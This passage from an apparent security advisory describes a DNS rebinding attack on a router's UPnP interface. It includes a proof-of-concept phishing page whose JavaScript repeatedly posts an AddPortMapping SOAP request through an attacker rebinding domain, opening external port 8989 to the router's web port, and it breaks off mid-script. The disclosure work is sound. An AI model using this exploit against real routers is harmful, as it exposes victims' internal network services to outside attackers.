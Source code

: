 The requirements are satisfied and, therefore, we can perform a DNS Rebinding attack against the router and inject this custom rule into its port forwarding table. 

The following HTML page was used as Proof of Concept of phishing page. The page was runned on localhost and the attacker domain in this case was **127-0-0-1.192-168-1-1.attacker.mindedsecurity.com**.

The JavaScript code embedded inside the page continuously performs the **AddPortMapping** SOAP POST request via XHR to **http://127-0-0-1.192-168-1-1.attacker.mindedsecurity.com:5431**. 

<html\>

<head\>

    <script src\="jquery.min.js"\></script\>

    <script\>

        var URL \= 'http://127-0-0-1.192-168-1-1.attacker.mindedsecurity:5431/control/WANIPConnection'

​

        var soapBody \='<?xml version="1.0"?> <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"><NewRemoteHost></NewRemoteHost><NewExternalPort>8989</NewExternalPort><NewProtocol>TCP</NewProtocol><NewInternalPort>80</NewInternalPort><NewInternalClient>192.168.1.1</NewInternalClient><NewEnabled>1</NewEnabled><NewPortMappingDescription>UPnP port mapping PoC</NewPortMappingDescription><NewLeaseDuration>0</NewLeaseDuration></u:AddPortMapping></s:Body></s:Envelope>'

​

        function AddPortMapping() {

            jQuery.ajax ({

                url: URL,

                type: "POST",

                data: soapBody,

                dataType: "xml",

                contentType: "text/xml; charset=utf-8"

            });

        }

        function poll() {

            setTimeout(function () {

                AddPortMapping();

                poll();

            }, 180000);

        }

        $(document).ready(function () {
